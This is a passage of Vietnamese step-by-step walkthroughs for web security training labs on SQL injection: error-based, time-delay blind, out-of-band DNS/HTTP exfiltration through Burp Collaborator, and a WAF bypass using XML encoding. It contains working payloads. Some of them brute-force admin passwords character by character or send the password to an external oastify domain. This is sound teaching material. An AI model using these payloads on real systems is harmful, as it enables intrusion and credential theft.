7. Vì ứng dụng trả về lỗi chi tiết của truy vấn SQL, ta có thể sử dụng điều này để khai thác thông tin nhạy cảm khi đã biết có tồn tại một bảng `users` chứ `username` và `password`. Trong cơ sở dữ liệu, mật khẩu người dùng sẽ có kiểu dữ liệu là `char`, ta có thể sử dụng ```CAST((SELECT username FROM users LIMIT 1) as int)``` để phát sinh lỗi sai định dạng.



8. Từ thông báo lỗi ta có thể thấy người dùng đầu tiên trong bảng `users` là `administrator`. Sử dụng một gói tin tương tự ta có thể khai thác được mật khẩu của người dùng này. Ta có thể quay lại tab **Proxy** và sử dụng gói tin sau thay vào giá trị của `TrackingId` để hiển thị mật khẩu lên màn hình qua thông báo lỗi.

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) as int)--
```

9. Sau khi chọn **Forward**, chọn **Intercept is on** để chuyển nó về **Intercept is off** và chuyển qua giao diện ứng dụng, ta sẽ nhận được mật khẩu của người dùng `administrator` là `ibok9hcafpt1c81c25uz`.



10. Reload ứng dụng, sau đó chọn **My account** và đăng nhập bằng thông tin đăng nhập vừa nhận được. Ứng dụng sẽ hiển thị đăng nhập thành công và thông báo hoàn thành bài lab.



# Lab: Blind SQL injection with time delays and information retrieval

## Mô tả bài lab

Bài lab này chứa một lỗ hổng blind SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi khác nhau dựa trên việc truy vấn có trả về bất kỳ hàng nào hay gây ra lỗi. Tuy nhiên, vì truy vấn được thực thi đồng bộ, có thể kích hoạt độ trễ thời gian có điều kiện để suy ra thông tin.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`. Bạn cần khai thác lỗ hổng blind SQL injection để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab này, hãy đăng nhập vào tài khoản người dùng `administrator`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Tech gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và *Action>Send to Intruder*, sau đó chuyển sang tab **Repeater**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `wP8ZmH7Di8tWDBqB`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Được biết ứng dụng không trả về bất kỳ cột thông tin nào từ truy vấn SQL, đồng thời cũng không trả về thông báo lỗi. Tuy vậy truy vấn SQL vẫn được thực hiện và từ đó ta có thể kích hoạt độ trễ có điều kiện để xác định các thông tin nhạy cảm. Trước hết cần xác định loại cơ sở dữ liệu đang được sử dụng, ta có thể thử các gói tin khác nhau nối vào giá trị của `TrackingId` để thực hiện điều này:


| Database   | Payload                                    |
| ---------- | ------------------------------------------ |
| Oracle     | `'%3B+dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `'%3B+WAITFOR+DELAY+'0:0:10'`              |
| PostgreSQL | `'%3B+SELECT+pg_sleep(10)`                 |
| MySQL      | `'%3B+SELECT+SLEEP(10)`                    |

> Trong đó, `%3B` là dấu `;`, các loại cơ sở dữ liệu trừ Oracle đều có thể thực hiện nhiều truy vấn trên cùng một dòng nên ta có thể loại bỏ Oracle. Thực hiện với từng gói tin ta có thể nhận thấy được khi thử với gói tin dạng PostgreSQL, ứng dụng phản hồi lâu hơn bình thường, từ đó ta xác nhận ứng dụng sử dụng cơ sở dữ liệu PostgreSQL.

7. Di chuyển sang tab **Intruder**, bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`, gói tin sẽ kích hoạt độ trễ 10 giây nếu độ dài mật khẩu không chính xác và ứng dụng sẽ chạy bình thường nếu độ dài chính xác:
```
'%3B+SELECT+CASE+WHEN+LENGTH(password)=§§+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
```
8. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 1 đến 30.



9. Bảng kết quả sẽ xuất hiện và hiển thị số lượng phản hồi khi truyền payload `20` cao đột biến, điều này xảy ra khi BurpSuite chưa nhận được phản hồi của ứng dụng và tiếp tục gửi gói tin cho đến khi có phản hồi. Từ đó xác định được mật khẩu của người dùng `administrator` có độ dài là 20.



10. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'%3B+SELECT+CASE+WHEN+SUBSTRING(password,§§,1)='§§'+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
```

11. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
12. Với bảng thông tin được hiển thị, chuột phải vào *Response received* và chọn *Sort>Descending* để hiển thị các gói tin có số phản hồi cao đột biến. Bôi đen các cột này, chuột phải và chọn *Highlight* sau đó chuyển chế độ hiển thị về `Show only highlighted items`. Cuối cùng chuột phải vào *Payload 1* và chọn *Sort>Ascending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `03bgge7gqmqaj1mqmzs9`.



13. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `03bgge7gqmqaj1mqmzs9`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



# Lab: Blind SQL injection with out-of-band interaction

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Để giải quyết bài lab, hãy khai thác lỗ hổng SQL injection để gây ra một truy vấn DNS tới Burp Collaborator.

> ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa sẽ chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

Sau khi xác nhận được cách kích hoạt các tương tác ngoài băng tần, bạn có thể sử dụng kênh ngoài băng tần để trích xuất dữ liệu từ ứng dụng có lỗ hổng. Ví dụ:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Đầu vào này đọc mật khẩu của người dùng Administrator, thêm một miền phụ duy nhất của Collaborator, và kích hoạt một truy vấn DNS. Truy vấn này cho phép bạn xem mật khẩu đã được thu thập:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Các kỹ thuật ngoài băng tần (OAST) là một cách mạnh mẽ để phát hiện và khai thác lỗ hổng SQL injection mù, nhờ vào khả năng thành công cao và khả năng trích xuất dữ liệu trực tiếp trong kênh ngoài băng tần. Vì lý do này, các kỹ thuật OAST thường được ưu tiên ngay cả trong những tình huống mà các kỹ thuật khai thác mù khác cũng hoạt động.

> ## Lưu ý:
> Có nhiều cách khác nhau để kích hoạt các tương tác ngoài băng tần, và các kỹ thuật khác nhau áp dụng cho các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng gian lận SQL injection.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, reload lại ứng dụng và thông báo hoàn thành bài lab sẽ hiện lên.

# Lab: Blind SQL injection with out-of-band data exfiltration

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Cơ sở dữ liệu chứa một bảng khác có tên là users, với các cột có tên là username và password. Bạn cần khai thác lỗ hổng SQL injection mù để tìm ra mật khẩu của người dùng quản trị viên.

Để giải quyết bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.

> ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa của chúng tôi chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, sau đó di chuyển đến tab **Collaborator**. Ở đây sẽ hiển thị các thông tin được trao đổi giữa server của ứng dụng và BurpSuite Collaborator. Ở đây khi truy cập vào gói tin HTTP, ta có thể xem được phản hồi của server trả về mật khẩu của người dùng `administrator` khi xem mục **Request to Collaborator** (`zkva3bj82sf6v5exkb3l`).



8. Sử dụng thông tin đã lấy được để đăng nhập ứng dụng bằng cách chọn **My account**. Sau đó ứng dụng sẽ thông báo đăng nhập thành công và hoàn thành bài lab.

# Lab: SQL injection with filter bypass via XML encoding

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection trong tính năng kiểm tra hàng tồn kho. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Cơ sở dữ liệu chứa một bảng `users`, trong đó có tên người dùng và mật khẩu của các người dùng đã đăng ký. Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL injection để truy xuất thông tin đăng nhập của người dùng admin, sau đó đăng nhập vào tài khoản của họ.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn một mặt hàng bất kỳ, sau đó kéo xuống cuối trang và chọn **Check Stock**.
4. Khi chuyển sang tab *Proxy>HTTP history*, ta sẽ thấy một gói tin POST `/product/stock`. Chuột phải và chọn **Send to Repeater**, sau đó chuyển qua tab **Repeater**.



5. Có thể thấy, ứng dụng sử dụng `productId` và `storeId` để thực hiện truy vấn. Từ điều này ta có thể mường tượng cấu trúc dữ liệu được thiết kế để mỗi cửa hàng sẽ là một bảng riêng, chứa nhiều `productId` và bản thân bảng đó sẽ có một `storeId`. Điều này đồng nghĩa với việc có thể truy vấn các bảng khác từ mục `<storeId>`.
6. Được biết truy vấn sẽ chỉ trả về 1 cột, ta sẽ sử dụng `UNION SELECT NULL` nối tiếp vào giá trị hiện có của `storeId` và chọn **Send** để thử nghiệm việc lấy thông tin.
7. Ứng dụng sẽ hiện thông báo `"Attack detected"` và không trả về kết quả. Ta có thể khắc phục điều này bằng một Extension có tên là Hackvertor, bôi đen giá trị của `storeId`, chuột phải và chọn *Extensions>Hackvertor>Encode>hex_entities*. Lần này khi chọn **Send**, ứng dụng sẽ trả về giá trị `null` phía sau số lượng sản phẩm.
8. Thay đổi thông tin gói tin để thực hiện lấy thông tin đăng nhập của người dùng như sau:
```sql
UNION SELECT password FROM users WHERE username='administrator'
```
9. Sau khi chọn **Send**, ứng dụng sẽ trả về mật khẩu của người dùng `administrator`. Chọn **My account** trên giao diện ứng dụng và đăng nhập bằng thông tin vừa nhận được, ứng dụng sẽ thông báo đăng nhập thành công và hoàn thành bài lab.


